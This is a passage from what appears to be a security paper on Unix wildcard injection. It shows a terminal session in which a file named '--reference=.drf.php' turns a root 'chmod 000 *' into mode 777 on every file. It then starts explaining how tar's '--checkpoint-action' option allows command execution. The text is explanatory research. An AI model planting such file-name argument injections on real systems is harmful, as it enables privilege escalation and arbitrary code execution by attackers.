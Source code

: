 Superuser will now try to set mode 000 on all files.

[root@defensecode public]# chmod 000 *

Let's check permissions on files...

[root@defensecode public]# ls -al
total 68
drwxrwxrwx.  2 user user  4096 Oct 29 00:41 .
drwx------. 24 user user  4096 Oct 28 18:32 ..
-rwxrwxrwx.  1 user user 20480 Oct 28 19:13 admin.php
-rwxrwxrwx.  1 user user    34 Oct 28 17:47 ado.php
-rwxrwxrwx.  1 user user   187 Oct 28 17:44 db.php
-rwxrwxrwx.  1 user user   201 Oct 28 17:43 download.php
-rwxrwxrwx.  1 leon leon     0 Oct 29 00:40 .drf.php
-rwxrwxrwx.  1 user user    43 Oct 28 17:35 file1.php
-rwxrwxrwx.  1 user user    56 Oct 28 17:47 footer.php
-rwxrwxrwx.  1 user user   357 Oct 28 17:36 global.php
-rwxrwxrwx.  1 user user   225 Oct 28 17:37 header.php
-rwxrwxrwx.  1 user user   117 Oct 28 17:36 inc.php
-rwxrwxrwx.  1 user user   111 Oct 28 17:38 index.php
-rw-r--r--.  1 leon leon     0 Oct 29 00:41 --reference=.drf.php
-rwxrwxrwx.  1 user user    94 Oct 28 17:38 script.php

What happened? Instead of 000, all files are now set to mode 777 because
of the '--reference' option supplied through file name..
Once again, file .drf.php owned by user 'leon' with mode 777 was
used as reference file and since --reference option is supplied, all files
will be set to mode 777.
Beside just --reference option, attacker can also create another file with
'-R' filename, to change file permissions on files in all subdirectories recursively.



===[ 4.3 Tar arbitrary command execution

Previous example is nice example of file ownership hijacking. Now, let's go to even
more interesting stuff like arbitrary command execution. Tar is very common unix program
for creating and extracting archives.
Common usage for lets say creating archives is:

[root@defensecode public]# tar cvvf archive.tar *

So, what's the problem with 'tar'?
Thing is that tar has many options, and among them, there some pretty interesting
options from arbitrary parameter injection point of view.

Let's check tar manual page (man tar):

      --checkpoint[=NUMBER]
              display progress messages every NUMBERth record (default 10)

       --checkpoint-action=ACTION
              execute ACTION on each checkpoint

There is '--checkpoint-action' option, that will specify program which will
be executed when checkpoint is reached. Basically, that allows us arbitrary
command execution.
